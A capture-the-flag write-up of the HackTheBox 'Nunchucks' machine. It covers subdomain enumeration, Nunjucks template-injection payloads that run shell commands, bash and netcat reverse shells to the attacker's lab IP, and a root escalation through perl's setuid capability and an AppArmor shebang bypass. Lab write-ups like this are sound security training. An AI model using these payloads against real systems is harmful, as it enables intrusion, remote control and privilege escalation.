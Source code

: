 ```yaml
---
title: Nunchucks
tags:
  - HackTheBox
  - Easy
  - Linux
  - SSTI
  - Nodejs
  - Capabilities
  - AppArmor
  - Perl
---
```

![](Pasted%20image%2020241113095057.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.122 nunchucks.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- nunchucks.htb > sC.txt

[redacted]

```

So I took a look at the webpage:

![](Pasted%20image%2020241113095424.png)

Inspecting the source code I discovered the `/signup` section, but it's currently unavailable:

![](Pasted%20image%2020241113095638.png)

So I decided to check for virtual hosts enumeration with [Wfuzz 🐙](/notes/tools/wfuzz.md):

```shell
wfuzz -H "Host: FUZZ.nunchucks.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 30587 https://nunchucks.htb

[redacted]
=====================================================================
ID           Response   Lines    Word       Chars       Payload              
=====================================================================

000000081:   200        101 L    259 W      4028 Ch     "store"
```

So I added the new vhost and visited it:

![](Pasted%20image%2020241113102749.png)

Checking Wappalyzer, it seems that the server is using Node.js.

### SSTI

If we check [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#detect), we can find a NUNJUCKS ssti:
- More detailed in [disse.cting](https://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine)

```shell
{{7*7}} = 49
{{foo}} = No output
#{7*7} = #{7*7}
{{console.log(1)}} = Error
{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}
# revshell
{{range.constructor("return global.process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/10.10.14.24/666 0>&1\"')")()}}
```

I got errors executing the upper payloads:

![](Pasted%20image%2020241113104255.png)

So I escaped the quotes:

```shell
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}@gitblanc.com"}
# revshell
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('mkfifo /tmp/fmkltf; nc 10.10.14.24 666 0</tmp/fmkltf | /bin/sh >/tmp/fmkltf 2>&1; rm /tmp/fmkltf')\")()}}@gitblanc.com"}
```

![](Pasted%20image%2020241113104430.png)

![](Pasted%20image%2020241113105307.png)

> I got a reverse shell :D and can read user flag

![](Pasted%20image%2020241113105248.png)

![](Pasted%20image%2020241113105431.png)

## Privilege escalation

Enumerating the filesystem we see that `perl` has setuid capabilities set:

```shell
getcap -r / 2>&1 | grep -v 'Operation not permitted' | grep -v 'Operation not supported'

[redacted]
/usr/bin/perl = cap_setuid+ep
```

So I checked [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#suid):

```shell
which perl
/usr/bin/perl

# Then
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

If we now try to read the `/etc/shadow` file we can't even with the `setuid` enabled:

```shell
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "cat /etc/shadow";'
cat: /etc/shadow: Permission denied
```

So I checked the output of the `whoami` command:

```shell
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami";'
root
```

I tried to read the `root.txt` flag but had no permissions:

```shell
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "cat /root/root.txt";'
cat: /root/root.txt: Permission denied
```

This has to be an AppArmor Profile stablished for perl. If we perform some enumeration:

```shell
ls /etc/apparmor.d/

[redacted]
-rw-r--r--   1 root root   442 Sep 26  2021 usr.bin.perl
```

There is a profile for perl :/

Inspecting the root path, I found a script in `/opt`:

![](Pasted%20image%2020241113110849.png)

```perl
#!/usr/bin/perl
use strict;
use POSIX qw(strftime);
use DBI;
use POSIX qw(setuid); 
POSIX::setuid(0); 

my $tmpdir        = "/tmp";
my $backup_main = '/var/www';
my $now = strftime("%Y-%m-%d-%s", localtime);
my $tmpbdir = "$tmpdir/backup_$now";

sub printlog
{
    print "[", strftime("%D %T", localtime), "] $_[0]\n";
}

sub archive
{
    printlog "Archiving...";
    system("/usr/bin/tar -zcf $tmpbdir/backup_$now.tar $backup_main/* 2>/dev/null");
    printlog "Backup complete in $tmpbdir/backup_$now.tar";
}

if ($> != 0) {
    die "You must run this script as root.\n";
}

printlog "Backup starts.";
mkdir($tmpbdir);
&archive;
printlog "Moving $tmpbdir/backup_$now to /opt/web_backups";
system("/usr/bin/mv $tmpbdir/backup_$now.tar /opt/web_backups/");
printlog "Removing temporary directory";
rmdir($tmpbdir);
printlog "Completed";
```

We can see that the script has the `setuid` set to 0, but we cannot make any changes to the script. 

I checked the Apparmor version:

```shell
apparmor_parser --version
AppArmor parser version 2.13.3
```

So I searched in Google for "*Apparmor bugs*". I found the following [shebang bug](https://bugs.launchpad.net/apparmor/+bug/1911431) in Launchpad, so I created a script that executes a shell as root:

```perl
#!/usr/bin/perl
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/bash";
```

> I executed it and became root. Got root flag!

![](Pasted%20image%2020241113111954.png)

==Machine pwned!==



